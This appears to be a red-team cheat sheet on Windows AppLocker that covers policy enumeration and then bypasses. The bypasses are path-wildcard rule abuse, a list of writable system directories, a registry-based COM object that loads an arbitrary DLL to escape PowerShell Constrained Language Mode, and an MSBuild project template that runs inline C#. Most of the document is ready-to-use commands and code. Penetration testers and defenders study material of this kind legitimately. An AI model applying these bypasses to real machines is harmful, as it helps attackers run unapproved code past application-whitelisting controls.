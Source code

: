 
#### Enumeration

Local enumeration via registry key and subkeys (appx, exe, dll, msi, etc.)
```powershell
Get-ChildItem 'HKLM:Software\Policies\Microsoft\Windows\SrpV2'

Get-ChildItem 'HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe'
```

Local enumeration via AppLocker cmdlet
```powershell
$policy = Get-AppLockerPolicy -Effective; $policy.RuleCollections
```

GPO enumeration
```powershell
ldapsearch (objectClass=groupPolicyContainer) --attributes displayName,gPCFileSysPath
```

```powershell
ls [gPCFileSysPath]\Machine

download []\Machine\Registry.pol
```

```powershell
Parse-PolFile -Path .\Desktop\Registry.pol
```

---

#### Bypasses

###### Path Wildcards

An executable in any directory called _App-V_ will be allowed to run per this rule.

```xml
<FilePathRule Id="daecf627-c762-4c7d-849a-7eb9d4e9692e" Name="App-V" Description="" UserOrGroupSid="S-1-1-0" Action="Allow">
	<Conditions>
		<FilePathCondition Path="*\App-V\*"/>
	</Conditions>
</FilePathRule>
```

##### Writable Directories

| Directory                               |
| --------------------------------------- |
| C:\Windows\Tasks                        |
| C:\Windows\Temp                         |
| C:\Windows\tracing                      |
| C:\Windows\System32\spool\PRINTERS      |
| C:\Windows\System32\spool\SERVERS       |
| C:\Windows\System32\spool\drivers\color |

##### PowerShell CLM

 Creating custom COM object that will load an arbitrary DLL into the PowerShell process. 

```powershell
[System.Guid]::NewGuid()

New-Item -Path 'HKCU:Software\Classes\CLSID' -Name '[GUID]'

New-Item -Path 'HKCU:Software\Classes\CLSID\[GUID]' -Name 'InprocServer32' -Value 'C:\Users\pchilds\Desktop\bypass.dll'

New-ItemProperty -Path 'HKCU:Software\Classes\CLSID\[GUID]\InprocServer32' -Name 'ThreadingModel' -Value 'Both'

New-Item -Path 'HKCU:Software\Classes' -Name 'AppLocker.Bypass' -Value 'AppLocker Bypass'

New-Item -Path 'HKCU:Software\Classes\AppLocker.Bypass' -Name 'CLSID' -Value '[GUID]'
```

```powershell
New-Object -ComObject AppLocker.Bypass
```


##### LOLBAS  [MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)

Template for `.csproj` file to run arbitrary C#

```c#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuild/>
  </Target>
   <UsingTask
    TaskName="MSBuild"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Reference Include="System.Windows.Forms" />		
      <Code Type="Class" Language="cs">
        <![CDATA[
		using Microsoft.Build.Utilities;
		using System.Windows.Forms;

		public class MSBuild : Task
		{
			public override bool Execute()
			{
				MessageBox.Show("Hello World", "AppLocker Bypass");
				return true;
			}
		}
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

Execute
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe test.csproj
```